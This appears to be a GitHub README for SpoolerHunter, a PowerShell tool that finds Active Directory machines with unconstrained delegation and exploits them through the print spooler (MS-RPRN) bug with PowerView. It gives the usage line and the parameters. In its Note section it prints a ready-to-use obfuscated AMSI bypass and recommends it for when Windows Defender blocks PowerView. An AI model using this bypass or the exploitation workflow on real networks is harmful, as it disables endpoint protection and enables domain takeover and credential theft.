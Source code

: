 # SpoolerHunter

<h3>Description:</h3>
SpoolerHunter is a PowerShell script designed to automate the detection and exploitation of unconstrained delegation computers in a domain environment. The script utilizes the PowerView module to identify vulnerable machines and exploits them using the MS-RPRN.exe tool. It provides options to specify a target machine for the scan and enable verbose output for detailed information during execution.
<h3>Usage:</h3>
<div style="background-color: #f5f5f5; /* Light gray background */
            border: 1px solid #ccc; /* Gray border */
            border-radius: 5px; /* Rounded corners */
            padding: 10px; /* Padding around the content */
            margin-bottom: 20px; /* Margin at the bottom */
            color:red;
            font-family: Arial, sans-serif; /* Font family */
            font-size: 14px; /* Font size */
            line-height: 1.5; /* Line height */
            overflow-x: auto; /* Enable horizontal scrolling if needed */">
    <pre><code>.\SpoolerHunter.ps1 [-TargetMachine [String]] [-Verbose] [-h]</code></pre>
</div>
<h3>Parameters:</h3><br/>
<ul>
	<li>
		<b>-TargetMachine [String]</b>: Specifies the machine which is allowed to delegate. If not provided, the script scans for unconstrained delegation computers in the domain.		
	</li>
	<li>
		<b>-Verbose</b>: Enables verbose output, displaying detailed information about the scan and exploitation process.
	</li>
	<li>
		<b>-h</b>: Displays the help message, providing information about the script's usage, parameters, and examples.
	</li>
</ul>

![_proofofconcept](https://github.com/IBarrous/SpoolerHunter/assets/126162952/1633125a-f1cc-4c91-a21e-2dd6983fb635)

<h3>Note:</h3>
<p>use the following AMSI bypass if PowerView is getting blocked by windows defender.</p>
<pre><code>S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )</code></pre>
<h3>Resources:</h3>
<ul>
	<li><a href="https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1"><b>PowerView</b></a></li>
	<li><a href="https://github.com/leechristensen/SpoolSample"><b>MS-RPRN</b></a></li>
</ul>
